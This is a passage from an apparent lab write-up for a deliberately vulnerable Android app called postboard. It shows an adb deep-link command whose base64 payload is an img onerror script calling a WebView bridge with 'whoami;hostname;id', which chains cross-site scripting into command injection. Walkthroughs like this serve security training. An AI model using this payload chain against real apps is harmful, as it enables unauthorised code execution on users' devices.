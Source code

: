 adb command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3dob2FtaTtob3N0bmFtZTtpZCcpIj4="
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... cmp=com.mobilehackinglab.postboard/.MainActivity }
```

![img-description](2.png)

The ascii art is added to the cache, we can't see it in the UI unless we call `getMessages()`. To trigger this we can click Post Message button or run `WebAppInterface.getMessages();` to update UI. Let's click Post Message button and see.
